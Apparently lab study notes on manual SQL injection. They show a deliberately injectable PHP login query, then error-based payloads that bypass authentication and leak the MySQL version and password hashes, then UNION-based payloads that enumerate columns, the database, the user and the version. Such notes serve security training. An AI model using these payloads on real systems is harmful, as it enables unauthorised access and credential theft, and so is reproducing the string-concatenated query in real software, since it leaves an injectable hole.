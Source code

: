 #### 10.2. Manual SQL Exploitation

######  10.2.1. Identifying SQLi via Error-based Payloads

PHP Code vulnerable to SQL Injection 
```
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

1. U: offsec P: Jam Output: Invalid password!

2. U: offsec' P: Jam Output: Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '5275cb415e5bc3948e8f2cd492859f26'' at line 1 

3. SQLi payload inside the 'Username' field: U: offsec'OR 1=1 -- // P:  Output: Authentication Successfull 

4. Testing for Error-based payload to get version: U: ' or 1=1 in (select @@version) -- // P:  Output:  Warning: 1292: Truncated incorrect DOUBLE value: '8.0.28'  Invalid password!

5. U:' OR 1=1 in (SELECT * FROM users) -- // P: Output: Error: Operand should contain 1 column(s) 

6. Getting password values: U: ' or 1=1 in (SELECT password FROM users) -- // P: Output:  Warning: 1292: Truncated incorrect DOUBLE value: '21232f297a57a5a743894a0e4a801fc3' Warning: 1292: Truncated incorrect DOUBLE value: 'f9664ea1803311b35f81d07d8c9e072d' Warning: 1292: Truncated incorrect DOUBLE value: '5f4dcc3b5aa765d61d8327deb882cf99' Warning: 1292: Truncated incorrect DOUBLE value: '5653c6b1f51852a6351ec69c8452abc6' 

7. Getting password for admin username: U: ' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- // P: Output: Warning: 1292: Truncated incorrect DOUBLE value: '21232f297a57a5a743894a0e4a801fc3' 

######  10.2.2. UNION-based Payloads

1. Two conditions for satisfying UNION SQLi attacks
     a. Same number of columns as the original query
     b. Compatible data types between each column. 

2. In search.php page, figuring out number of column. 
     a. Input: ' ORDER BY 6-- //, Output: Unknown column '6' in 'order clause' 
     b. It means, there are 5 columns. 

3. First attack by enumerating the current database name, user, and MySQL version.
     a. Input: %' UNION SELECT database(), user(), @@version, null, null -- // Output:  Shows root user and version number 

4. Shifting all the enumerating functions to the right-most place, avoiding any type mismatches.
     a. Input: ' UNION SELECT null, null, database(), user(), @@version  -- // Output: all three values returned correctly, including offsec as the current database name.
